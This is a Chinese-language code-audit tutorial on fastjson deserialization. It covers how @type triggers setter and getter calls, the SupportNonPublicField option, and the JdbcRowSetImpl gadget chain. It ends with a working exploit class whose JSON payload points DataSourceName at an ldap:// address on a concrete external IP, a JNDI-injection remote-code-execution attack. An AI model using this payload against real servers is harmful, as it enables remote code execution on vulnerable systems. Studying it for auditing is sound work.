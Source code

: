 # fastjson代码审计

为啥会出现命令执行

定义一个student类

fastjson和普通反序列化区别

```
//不需要实现serializable 
//变量不需要不是transient
//setter /getter 不是readObject   //变量有对应的setter或者是publich或者是满足条件的getter
//sink 反射/动态类加载
```

```java
package com.exp;

public class Student {

    private String name;
    private int age;

    public Student() {
        System.out.println(" method: Student() ");
    }

    public Student(String name , int age) {
        System.out.println(" method: Student(String name , int age) ");
        this.name = name;
        this.age = age;
    }

    public String getName() {
        System.out.println(" method: getName() ");
        return name;
    }

    public int getAge() {
        System.out.println(" method: getAge() ");
        return age;
    }

    public void setName(String name) {
        System.out.println(" method: setName() ");
        this.name = name;
    }

    public void setAge(int age) {
        System.out.println(" method setAge() ");
        this.age = age;
    }
}
```

```java
package com.exp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class demo {
    //fastjson提供了两个反序列化函数：parseObject和parse，我们通过示例程序来看一下fastjson的反序列化过程
    //toJSONString将对象转成字符串
    public static void main(String[] args) {
        Student student = new Student("moonsec" , 123);
        String jsonString1 = JSON.toJSONString(student);//是将对象转化为Json字符串
        System.out.println("转成json");
        System.out.println(jsonString1);
        System.out.println("转成json @type");
        String jsonString2 = JSON.toJSONString(student, SerializerFeature.WriteClassName); //自动加入 @type
        System.out.println(jsonString2);
        System.out.println("json转对象1");
        JSONObject jsonObject=JSON.parseObject(jsonString2);
        System.out.println(jsonObject);
        System.out.println("json转对象2");
        Student student1=JSON.parseObject(jsonString2,Student.class);
        System.out.println(student1);
        System.out.println("json转对象3");
        Object obj=JSON.parse(jsonString2);
        System.out.println(obj);

    }
}
```

![image](https://github.com/238469/liu.github.io/assets/126778520/51a83004-e75e-431a-8a51-5294c19ed5c0)


方式一调用了parseObject方法将json数据反序列化成java对象，并且在反序列化过程中会调用对象的setter和getter方法。

方式二调用了parseObject方法进行反序列化，并且指定了反序列化对象Student类，parseObject方法会将json数据反序列化成Student对象，并且在反序列化过程中调用了Student对象的setter方法。

方式三调用了parse方法将json数据反序列化成java对象，并且在反序列化时调用了对象的setter方法。

本来客户想简单利用 JSONObject jsonObject=JSON.parse（分析）Object(s);将普通字符串转成json对象而当用户传入{"@type":"com.exp.Student","age":123,"name":"moonsec"}就会反序列化并且调用set和get方法

**关于Feature.SupportNonPublicField参数**

以上这三种方式在进行反序列化时都会调用对象的构造方法创建对象，并且还会调用对象的setter方法，如果私有属性没有提供setter方法时，那么还会正确被反序列化成功吗？为了验证这个猜想，现在我们把Student对象的私有属性name的setter方法去掉。

从程序执行结果来看，私有属性name并没有被正确反序列化，也就是说fastjson默认情况下不会对私有属性进行反序列化。

如果需要将私有属性反序列化时，就可以调用parseObject方法指定Feature.SupportNonPublicField参数.

## 2 利用链分析

终点是这里执行了lookup函数然后这个getDatasourceName是可控的

![image](https://github.com/238469/liu.github.io/assets/126778520/7223ecd8-6261-4a7d-9a5a-e338def97b69)


由于fastjson会自动调用setter方法所以这个是可控的·

![image](https://github.com/238469/liu.github.io/assets/126778520/05818798-2c7e-4c36-affe-aeb7ed2d17dd)


现在我们需要去找谁调用了connet发现这个方法调用了并且会自动调用

![image](https://github.com/238469/liu.github.io/assets/126778520/02e2923f-31f4-4d5d-9965-32bc018f4166)


编写exp

```java
package com.exp;

import com.alibaba.fastjson.JSON;

public class demo3 {
    public static void main(String[] args) {

        //不需要实现serializable  序列化
        //变量不需要不是transient
        //setter /getter 不是readObject   //变量有对应的setter或者是publich或者是满足条件的getter
        //sink 反射/动态类加载
        String s="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://101.34.84.157:8085/WVvfcmrg\",\"AutoCommit\":\"false\"}";
        JSON.parseObject(s);
    }
}

```

